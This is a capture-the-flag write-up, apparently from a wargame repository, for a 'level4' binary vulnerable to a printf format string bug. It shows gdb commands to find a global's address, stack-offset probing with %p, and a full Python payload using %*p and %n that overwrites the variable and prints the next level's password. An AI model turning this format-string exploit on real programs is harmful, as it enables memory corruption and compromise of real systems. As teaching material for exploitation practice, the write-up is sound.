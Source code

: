 ## Press printf's f for fun and profit episode II (level4)

This level's [binary](source.c) is once again fairly similar to the last one. It
takes user input and prints it back to stdin. Here the input buffer is also
directly given to printf, which means we can perform an other
[format string attack](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b).
We also still have the same _m_ global variable that needs to be set to a given
value to pass a condition. This time, the binary will directly print the next
level's password if _m_ equals 0x1025544 (16930116).

So first, let's get _m_'s address:

```shell
# run gdb on the binary
gdb ./level4
# get the address
(gdb) i addr m
Symbol "m" is at 0x8049810 in a file compiled without debugging.
```

Now we can try adding some conversions to the format string to pop random values
from a stack and when we reach our buffer:

```shell
aaaabbbbccccdddd %p %p %p %p %p %p %p %p %p %p %p %p %p | ./level4
aaaabbbbccccdddd 0xb7ff26b0 0xbffffb84 0xb7fd0ff4 (nil) (nil) 0xbffffb48 0x804848d 0xbffff940 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x62626262
```

We start reaching our buffer at the 12'th conversion. Now we need to find a way
to make printf's output 16930116 characters long. The best way to do that is to
use * to pass an int argument from the stack as a field width specifier.

Here's the magic payload:

```shell
# feed the exploit payload to the binary
python -c 'print "\x01\x02\x54\xda"[::-1] + 4 * "a" + "\x08\x04\x98\x10"[::-1] + "%p%p%p%p%p%p%p%p%p%p%p%0*p%n"' | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

It works. The first value here is used as a field width for the last p
conversion. This is the number we want to write in _m_ minus the length of the
string returned by printf. Then we have 4 padding bytes for the last %p
conversion, and finally the address of _m_ we pass to %n.
